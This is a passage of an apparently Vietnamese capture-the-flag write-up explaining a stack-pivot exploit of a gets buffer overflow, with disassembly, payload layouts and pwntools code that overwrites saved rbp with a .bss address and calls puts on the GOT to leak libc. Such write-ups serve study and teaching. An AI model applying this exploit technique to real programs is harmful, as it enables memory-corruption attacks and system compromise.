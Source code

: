 - đầu tiên , ý tưởng sẽ là dùng gets để ghi đè rbp -> bss , ở đây ta hoàn toàn có thể setup để ghi dữ liệu vào và điều khiển chương trình
- nhưng ta sẽ ghi như thế nào , ta sẽ tưởng tượng như sau , ta sẽ muốn leak libc_puts , địa chỉ got của nó là **0x404018** , vậy đầu tiên ta sẽ ghi nó vào bss với giá trị **0x404018** và nó sẽ là save_rbp thứ 2 của ta để khi quay trở lại : 

```cs
0x00000000004011d0 <+59>:    lea    rax,[rbp-0x50]
0x00000000004011d4 <+63>:    mov    rdi,rax
0x00000000004011d7 <+66>:    call   0x401060 <puts@plt>
```

- ta sẽ hoàn thành việc leak ở giai đoạn này , nó sẽ trông như sau : 

```cs
payload1

padding : offset 
save_rbp : bss + xxx
save_rip : 0x00000000004011b0   (gets)

payload2 
padding : offset
save_rbp_2 : got_puts+0x50
save_rip : 0x00000000004011d0 (puts)
```

```c
gets_gadget = 0x00000000004011b0
puts_gadget = 0x00000000004011d0
leave_ret = 0x00000000004011dd
bss = 0x404000+0x700

input()
pl1 = flat(
        'a'*0x50,
        bss,
        gets_gadget,
        )

p.sendlineafter(b'string\n',pl1)

pl2 = flat(
        'b'*0x50,
        exe.got.puts+0x50,
        puts_gadget,
        )
```
- và ta sẽ leak libc được ở đây , tuy nhiên do save_rip tiếp theo chưa được ghi vào bss , nên khi **leave_ret** nó hoàn toàn không có hàm nào để nhảy đến khiến việc leak được libc trở nên vô nghĩa
